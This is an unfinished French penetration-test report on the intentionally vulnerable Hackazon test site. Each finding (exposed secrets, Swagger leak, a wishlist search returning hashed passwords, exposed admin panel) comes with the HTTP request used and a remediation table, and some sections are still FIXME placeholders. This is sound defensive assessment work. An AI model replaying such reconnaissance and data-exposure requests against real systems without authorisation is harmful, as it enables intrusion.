# SOMMAIRE

1. [Préambule](#préambule)
   - 1.1 [Présentation des résultats](#présentation-des-résultats)  
   - 1.2 [Contexte](#contexte)  
   - 1.3 [Pilotage de la prestation](#pilotage-de-la-prestation)  
   - 1.4 [Actions de nettoyage recommandées](#actions-de-nettoyage-recommandées)

2. [Synthèse Managériale](#synthèse-managériale)
   - 2.1 [Synthèse générale](#synthèse-générale)
   - 2.2 [Synthèse des risques](#synthèse-des-risques)
   - 2.3 [Synthèse des vulnérabilités et recommandations](#synthèse-des-vulnérabilités-et-recommandations)
   - 2.4 [Remarques](#remarques)

3. [Synthèse Technique](#synthèse-technique)

4. [Test d'intrusion externe et applicatif](#test-dintrusion-externe-et-applicatif)
   - 4.1 [Évaluation infrastructure](#évaluation-infrastructure)
     - 4.1.1 [Réseau](#réseau)
     - 4.1.2 [Services](#services)
   - 4.2 [Application web](#application-web)  
     - 4.2.2 [Évaluation application](#évaluation-application)
       - Collecte d'informations  
       - Configuration et mécanismes de déploiement  
       - Gestion des identités  
       - Authentification  
       - Autorisations  
       - Gestion des sessions  
       - Validation des entrées utilisateurs  
       - Gestion des erreurs  
       - Cryptographie  
       - Processus métier  
       - Côté client

5. [Annexe](#annexe)
   - 5.1 [Présentation de la démarche](#présentation-de-la-démarche)
   - 5.2 [Présentation des résultats](#présentation-des-résultats-annexe)
   - 5.3 [Terminologie des risques](#terminologie-des-risques)

# 1. Préambule

## 1.1 Présentation des résultats
Ce document vise à présenter de manière détaillée les résultats d'une évaluation de la sécurité de la plateforme Hackazon. Il fournit une analyse approfondie des vulnérabilités identifiées, ainsi que des recommandations pour renforcer la sécurité de l'application. Les idées sont organisées selon un plan structuré, débutant par un contexte et un pilotage de la prestation, suivi d'une synthèse managériale et technique, avant de plonger dans les tests d'intrusion réalisés et les résultats associés. Cette approche permet de naviguer facilement entre les différentes sections tout en facilitant la compréhension des enjeux et des recommandations.

## 1.2 Contexte
Dans le cadre de cette mission, il nous a été demandé de réaliser un test d'intrusion sur l'application web **Hackazon** accessible via l'URL [https://hackazon.trackflaw.com/](https://hackazon.trackflaw.com/). Hackazon est une plateforme de test et d'évaluation de la sécurité, souvent utilisée pour simuler des scénarios d'attaques web afin d'améliorer les pratiques de sécurisation des applications.

Le test d'intrusion avait pour objectif d’identifier les vulnérabilités potentielles de l’application et de fournir des recommandations en matière de sécurité. Ce test s'inscrit dans une démarche d'amélioration continue de la sécurité de l'infrastructure et des applications exposées à des utilisateurs externes.

### Objectifs principaux :
- Identifier et analyser les vulnérabilités présentes sur l’application web Hackazon.
- Évaluer la sécurité de l'infrastructure sous-jacente (serveurs, services réseau).
- Proposer des recommandations pour la remédiation des vulnérabilités détectées.

### Portée du test :
Le test a principalement couvert deux aspects :
1. **L'infrastructure** : Évaluation de la configuration réseau, des services exposés, et des mécanismes de protection en place.
2. **L’application web** : Analyse des points d’entrée de l'application, de la gestion des identités, des sessions, et des mécanismes de validation des entrées utilisateurs.

### Contraintes :
- Le temps alloué pour cette prestation était limité, ce qui a restreint l’analyse exhaustive de tous les points d’entrée possibles.
- Aucun accès aux codes sources de l'application ou aux serveurs hébergeant l'application n'a été fourni. Le test a été réalisé dans une approche « boîte noire », simulant l'attaque d'un utilisateur malveillant sans connaissances internes sur l'application.

## 1.3 Pilotage de la Prestation
Le pilotage de cette mission a suivi une approche structurée afin d'assurer une exécution fluide et alignée sur les attentes du client. Le test d’intrusion a été réalisé en plusieurs phases, chacune encadrée par des points de contact réguliers avec le client pour garantir la transparence et la bonne progression du projet.

### Phases de la mission :
1. **Phase de préparation** :
   - Recueil des besoins du client et définition du périmètre du test.
   - Planification des outils et méthodes à utiliser pour le test d'intrusion.
   - Configuration d’un environnement sécurisé pour l'exécution des tests.
2. **Phase de tests** :
   - Réalisation des tests d’intrusion en suivant une approche **boîte noire**, simulant le comportement d’un attaquant sans accès aux informations internes.
   - Utilisation d’outils automatisés et manuels pour identifier les vulnérabilités potentielles.
3. **Phase d’analyse** :
   - Analyse approfondie des résultats obtenus durant les tests pour en extraire les vulnérabilités les plus critiques.
   - Classement des vulnérabilités selon leur impact, leur facilité d’exploitation et leur sévérité.
4. **Phase de restitution** :
   - Présentation des résultats sous forme de rapport détaillé, incluant les vulnérabilités détectées et les recommandations associées.

### Points de contact et communication :
- Un compte-rendu final a été livré sous forme de rapport détaillé, avec une synthèse managériale et une synthèse technique.

## 1.4 Actions de nettoyage recommandées
Suite à cet audit plusieurs actions de nettoyage sont à prévoir :
- Suppression des comptes utilisateurs créés (pentest1 et pentest2).
- Suppression des demandes Helpdesk avec les ID suivants : 29, 28, 27, 26, 25, 24, 23 et 22.
- Nettoyage des commentaires sur la FAQ.
- Suppression des reviews sur l'article ID=81.
- Suppression des commandes effectuées par les comptes pentest1 et pentest2.


# 2. Synthèse Managériale

## 2.1 Synthèse générale

L'audit de sécurité de l'application web Hackazon a mis en lumière plusieurs points d'amélioration cruciaux pour optimiser la sécurité globale de la plateforme. L'analyse a révélé que l'utilisation de versions obsolètes de certains logiciels compromet la robustesse du système, le rendant vulnérable à des attaques qui pourraient avoir des conséquences graves. En outre, la présence de failles d'injection souligne des vecteurs d'attaque potentiels qui pourraient permettre à des acteurs malveillants d'accéder à des données sensibles ou de manipuler des fonctionnalités critiques de l'application. Ces facteurs augmentent les risques de compromission des données, de perte de confiance des utilisateurs et de détérioration de la réputation de la marque sur le marché.

## 2.2 Synthèse des risques

L’audit de sécurité a révélé des risques business significatifs qui pourraient affecter la pérennité et la croissance de Hackazon. La présence de logiciels obsolètes augmente la probabilité d'attaques réussies, ce qui pourrait entraîner des interruptions de service et des pertes financières considérables.

De plus, l'absence de contrôles d'accès rigoureux et de protections adéquates pourrait exposer des données sensibles des utilisateurs, compromettant la confidentialité et la confiance des clients. Une telle situation pourrait mener à des conséquences juridiques et réglementaires, augmentant les coûts opérationnels et nuisant à la réputation de l’entreprise.

Enfin, les vulnérabilités potentielles, si elles sont exploitées, pourraient causer des dommages à long terme à l'image de marque de Hackazon, décourageant les utilisateurs potentiels et réduisant les opportunités de croissance. Il est donc essentiel d’adresser ces risques rapidement afin de protéger les intérêts de l’entreprise et de maintenir sa compétitivité sur le marché.


## 2.3 Synthèse des vulnérabilités et recommandations

\begin{table}[!ht]
    \centering
    \begin{tabular}{|l|l|l|}
    \hline
        Vulnérabilité & Impact & Recommandation \\ \hline
        Logiciels Obsolètes & Exposition à des failles de sécurité connues. & Mettre à jour régulièrement tous les composants logiciels et effectuer une veille technologique. \\ \hline
        Manque de Contrôles d'Accès & Accès non autorisé à des données sensibles. & Implémenter des contrôles d'accès basés sur des rôles (RBAC) pour restreindre l'accès aux ressources. \\ \hline
        Failles d'Injection & Ouverture à des attaques malveillantes (SQL, XSS). & Appliquer des mécanismes de validation et de nettoyage des entrées utilisateur. Utiliser des requêtes préparées. \\ \hline
        Absence de Protection CSRF & Possibilité d'actions non autorisées au nom d'un utilisateur. & Mettre en place des tokens CSRF sur tous les formulaires et les actions sensibles. \\ \hline
        Cookies Non Sécurisés & Risques de vol de session et détournements. & Configurer les cookies de session avec les attributs Secure, HttpOnly et SameSite. \\ \hline
    \end{tabular}
\end{table}


## 2.4 Remarques

L'audit de sécurité a permis d'apprécier la richesse des fonctionnalités offertes par l'application web Hackazon. Cette diversité enrichit l'expérience utilisateur et offre une multitude d'options pour répondre aux besoins variés des clients.

Il est également important de noter que certaines fonctionnalités sont déjà bien protégées, notamment grâce à l'implémentation de tokens anti-CSRF, qui aident à prévenir les attaques par falsification de requêtes inter-sites. Cette approche proactive en matière de sécurité est un atout considérable, témoignant de l'engagement de la plateforme à protéger ses utilisateurs.

De plus, la configuration réseau et l'infrastructure sous-jacente sont jugées satisfaisantes, ce qui contribue à la stabilité et à la performance de l'application. Ces éléments renforcent la résilience globale du système et assurent une expérience utilisateur fluide.

Cependant, malgré ces points positifs, des améliorations sont encore nécessaires pour assurer une sécurité optimale et garantir que toutes les fonctionnalités bénéficient d'une protection adéquate. En investissant dans la sécurité des points d'entrée restants, Hackazon pourra non seulement préserver la confiance de ses utilisateurs mais également renforcer sa position sur le marché.

# 3. Synthèse Technique

> FIXME: A detailed technical summary of the findings, highlighting specific vulnerabilities, misconfigurations, and security gaps in the Hackazon web application.

# 4. Test d'intrusion externe et applicatif

## 4.1 Évaluation infrastructure

### 4.1.1 Réseau

> FIXME: Findings from the network evaluation.

### 4.1.2 Services

> FIXME: Evaluation of the services exposed by the infrastructure.

## 4.2 Application web

### 4.2.2 Évaluation application

#### Collecte d'informations

##### Secrets en clair dans le code source de l'application

Lors de l'audit, des informations sensibles, telles que des clés API, des mots de passe et d'autres secrets, ont été trouvées en clair directement dans le code source de l'application. Cette pratique est dangereuse car elle peut exposer ces secrets à des utilisateurs non autorisés, compromettant ainsi la sécurité de l'application.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-SECRETS-IN-CODE : Présence de secrets en clair dans le code source}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Élevé} & \textbf{Modéré} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

L'analyse du code source a révélé plusieurs instances où des informations sensibles étaient stockées en texte clair, sans aucune forme de chiffrement ou de masquage. Par exemple, des clés API pour des services externes, des identifiants de base de données, et d'autres secrets utilisés par l'application étaient visibles et facilement accessibles. Cela signifie qu'un attaquant ayant accès au code, même partiellement, pourrait potentiellement utiliser ces secrets pour compromettre l'intégrité, la confidentialité, ou la disponibilité des services liés.





les captures d'écran montre un exemple de clé API trouvée directement dans le code source, les identifiants valide d'un utilisateur et les identifiants de la base de donnée mysql, ce qui facilite son exploitation par des tiers malveillants.

Les fichiers en questions sont :
- assets/config/auth.php
- assets/config/db.php
- assets/config/parameters.php

---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-SECRETS-IN-CODE : Externaliser et sécuriser les secrets}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Modéré} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de ne jamais stocker de secrets en clair directement dans le code source de l'application. Les informations sensibles, telles que les mots de passe et les clés API, doivent être externalisées et stockées de manière sécurisée, par exemple, dans des services de gestion de secrets ou des fichiers de configuration protégés. Les variables d'environnement peuvent également être utilisées pour injecter ces secrets lors de l'exécution de l'application, évitant ainsi leur présence directe dans le code source. Il est important de mettre en place une gestion rigoureuse des secrets et de s'assurer qu'ils sont protégés par des mécanismes de chiffrement et des contrôles d'accès stricts.
} \\
\hline
\end{tabular}
\end{table}

#### FuiteDInformation

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-INFO-LEAK : Fuite d'information}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Élevé} & \textbf{Facile} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

Une fuite d'information a été identifiée via la documentation API accessible publiquement à l'URL [https://hackazon.trackflaw.com/swagger](https://hackazon.trackflaw.com/swagger). Cette documentation expose des détails sensibles sur les schémas d'authentification et les points de terminaison de l'API, ce qui pourrait faciliter des attaques ciblées sur l'API.

La requête :
```
GET /swagger HTTP/2
Host: hackazon.trackflaw.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Pwnfox-Color: red
Priority: u=0, i
Te: trailers


```

---



La capture d'écran ci-dessus montre l'accès non sécurisé à la documentation Swagger exposant des informations critiques sur l'API Hackazon.

---

### **Remediation**

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-INFO-LEAK : Recommandation pour sécuriser la documentation de l'API}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de protéger l'accès à la documentation Swagger en la rendant accessible uniquement à des utilisateurs authentifiés et autorisés :
    1. **Restreindre l'accès à Swagger** : Utiliser des mécanismes d'authentification pour limiter l'accès à la documentation API uniquement aux développeurs autorisés.
    2. **Supprimer les informations sensibles exposées** : Réviser les schémas et réponses exposés dans la documentation pour éviter toute exposition de données sensibles (comme les clés API, les schémas d'authentification, etc.).
    3. **Désactiver Swagger en production** : Il est préférable de désactiver les outils de documentation comme Swagger dans les environnements de production pour éviter toute fuite d'information.
} \\
\hline
\end{tabular}
\end{table}


#### ExpositionExcessiveDeDonnées

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-DATA-EXPOSURE : Exposition excessive de données}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Critique} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

Lors de l'analyse, il a été constaté que des informations sensibles telles que les mots de passe hachés et d'autres données personnelles sont exposées via une requête API. Par exemple, une simple recherche d'utilisateur dans la liste de souhaits permet de récupérer ces informations.

La requête :

```
POST /wishlist/search HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 11
Origin: https://hackazon.trackflaw.com
Referer: https://hackazon.trackflaw.com/wishlist/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: red
Priority: u=0
Te: trailers

search=mail
```
---



---

**Remediation**

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-DATA-EXPOSURE : Recommandation pour corriger l'exposition excessive de données}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Moyen} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de limiter les informations exposées par l'API. Seules les données strictement nécessaires à l'exécution de la fonctionnalité demandée doivent être retournées, en excluant les informations sensibles comme les mots de passe hachés, les jetons de session, etc.
} \\
\hline
\end{tabular}
\end{table}


#### Configuration et mécanismes de déploiement

##### Acceptation de méthodes HTTP excessive
\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-04 : Acceptation de méthodes HTTP excessive}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Majeur} & \textbf{Facile} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

De nombreuses méthodes HTTP sont acceptées par l'application, ce qui élargit la surface d'attaque pour les attaquants potentiels. Cette configuration peut permettre des actions non désirées telles que la modification, la suppression, ou la découverte d'informations sensibles.



---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-04 : Acceptation de méthodes HTTP excessive}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de restreindre l'acceptation des méthodes HTTP aux seules méthodes strictement nécessaires, comme `GET` et `POST`. Les méthodes non nécessaires comme `DELETE`, `TRACE`, et autres doivent être désactivées côté serveur pour réduire la surface d'attaque potentielle.
} \\
\hline
\end{tabular}
\end{table}


##### Absence de protection anti-malware

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-05 : Absence de protection anti-malware}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Critique} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

L'application ne dispose pas de protection contre les logiciels malveillants. Un fichier de test EICAR, utilisé pour simuler un fichier malveillant, a pu être téléchargé sans être détecté ou bloqué. Cela expose l'application à des risques d'infection par des logiciels malveillants pouvant entraîner la compromission du serveur.




*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-05 : Absence de protection anti-malware}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Moyen} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est fortement recommandé d'implémenter une solution de protection anti-malware sur le serveur pour scanner les fichiers téléchargés. Cela peut inclure un antivirus tel que ClamAV, qui peut détecter et bloquer les fichiers malveillants comme le fichier de test EICAR. De plus, la surveillance régulière des fichiers et des processus sur le serveur doit être mise en place pour prévenir les infections.
} \\
\hline
\end{tabular}
\end{table}


##### Insecure File Distribution

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-09 : Distribution de fichier non sécurisé}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Modéré} & \textbf{Facile} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

Il a été observé que l'application distribue des fichiers APK sans aucune validation ou signature de sécurité. Le fichier téléchargé via l'URL `https://hackazon.trackflaw.com/app/hackazon.apk` n'est pas signé, ce qui peut permettre à un attaquant de distribuer des fichiers malveillants en remplacement des fichiers légitimes.

---


---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-09 : Distribution de fichier non sécurisé}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Moyen} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de signer numériquement tous les fichiers distribués, en particulier les fichiers exécutables comme les APK. De plus, l'application doit vérifier l'intégrité des fichiers avant leur distribution pour éviter tout risque de remplacement par des fichiers malveillants.
} \\
\hline
\end{tabular}
\end{table}


##### Public Exposure of Admin Panel

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-11 : Exposition du panneau d'administration public}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Critique} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

L'application expose publiquement l'URL de connexion au panneau d'administration, accessible via `https://hackazon.trackflaw.com/admin/user/login`. Cette URL peut être exploitée par des attaquants pour tenter des attaques de force brute ou d'énumération d'utilisateurs.

---


---

Request :

```
GET /admin/user/login HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Pwnfox-Color: red
Priority: u=0, i
Te: trailers
```

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-11 : Exposition du panneau d'administration public}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de restreindre l'accès au panneau d'administration via des règles de contrôle d'accès basées sur les adresses IP, ou de déplacer le panneau d'administration à une URL obscure. De plus, des mécanismes de protection contre les attaques par force brute, comme des CAPTCHA ou la limitation des tentatives de connexion, devraient être mis en place.
} \\
\hline
\end{tabular}
\end{table}

##### Mauvaise configuration du fichier cross-domain.xml (Flash)

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-CROSSDOMAIN : Mauvaise configuration du fichier cross-domain.xml}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Moyen} & \textbf{Modéré} & \textbf{1 / 4} \\
\hline
\end{tabular}
\end{table}

L'audit a révélé une mauvaise configuration du fichier **cross-domain.xml** sur le serveur. Ce fichier autorise des connexions provenant de domaines non sécurisés ou tiers, ce qui peut être exploité pour des attaques comme le **Cross-Site Scripting (XSS)** ou le vol de données sensibles.

---



La capture d'écran montre un exemple de fichier **cross-domain.xml** avec des autorisations trop larges, permettant des requêtes **cross-domain** non sécurisées.

---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-CROSSDOMAIN : Recommandation pour sécuriser le fichier cross-domain.xml}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 2 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de sécuriser le fichier **cross-domain.xml** en appliquant les bonnes pratiques suivantes :
    1. **Limiter les domaines autorisés** : Spécifier explicitement les domaines externes de confiance qui peuvent accéder aux ressources et éviter l'utilisation de l'astérisque (*) qui autorise tous les domaines.
    2. **Restreindre les types de requêtes autorisées** : Permettre uniquement les types de requêtes strictement nécessaires pour les services externes.
    3. **Supprimer ou désactiver le fichier si non utilisé** : Si le fichier **cross-domain.xml** n'est pas requis, il est préférable de le supprimer pour éviter tout risque de sécurité.
} \\
\hline
\end{tabular}
\end{table}

##### Versions dépréciées de logiciels utilisés (PHP, jQuery, Flash, MySQL)

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-OUTDATED-VERSIONS : Versions dépréciées de logiciels}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Élevé} & \textbf{Modéré} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

L'audit a identifié que certaines technologies utilisées par l'application, telles que **PHP**, **jQuery**, **Flash**, et **MySQL**, sont des versions obsolètes et ne sont plus maintenues. L'utilisation de versions dépréciées expose l'application à des vulnérabilités connues, augmentant ainsi les risques d'attaques ciblées.

---









La capture d'écran ci-dessus montre les résultats d'une analyse des versions logicielles, mettant en évidence les composants obsolètes utilisés par l'application.

---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
